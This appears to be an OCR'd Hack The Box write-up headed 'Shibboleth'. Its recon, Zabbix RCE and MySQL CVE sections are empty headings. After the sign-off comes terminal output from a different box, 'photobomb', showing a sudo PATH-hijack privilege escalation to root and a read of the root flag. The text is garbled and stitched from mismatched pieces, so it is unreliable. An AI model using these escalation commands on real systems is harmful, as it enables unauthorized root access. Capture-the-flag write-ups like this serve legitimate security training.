 ```yaml
---
layout: post
title: "HTB: SHIBBOLETH (10.10.11.124)"
description: ""
tags: []
image: "/assets/img/shibboleth/shibboleth_feature.png"
---
```

## RECON
### Nmap

As always we start off with the recon and enumeration process to get an overview of our attack surface and target's running service.

We run NMAP with default scripts and enumerate version and save it in the directory called nmap.

```nmap

```
From the result we only see one port open. Also, we note nmap was not redirected. Lets add shibboleth.htb to our hosts file and run the scan again.

```nmap

```


### Website - TCP 80
#### Site


#### Tech Stack


### Directory Brute Force


#### Site

### Zabbix


#### UDP Port 623

## Shell as Zabbix
#### Exploiting Zabbix

#### Testing RCE


#### RCE confirmed


## Shell as ipmi-svc

### Password reuse


## Shell as root
### Enumeration
#### MySQL

### CVE-2021-27928
#### Indentify


#### Execute:

********* And that was fun!!. Thank you for taking time to read my blog ************

wizard@photobomb:~$ echo "/bin/bash" > /tmp/cd
echo "/bin/bash" > /tmp/cd
wizard@photobomb:~$ echo "/bin/bash" > /tmp/find
echo "/bin/bash" > /tmp/find
wizard@photobomb:~$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
cat /root/root.txt
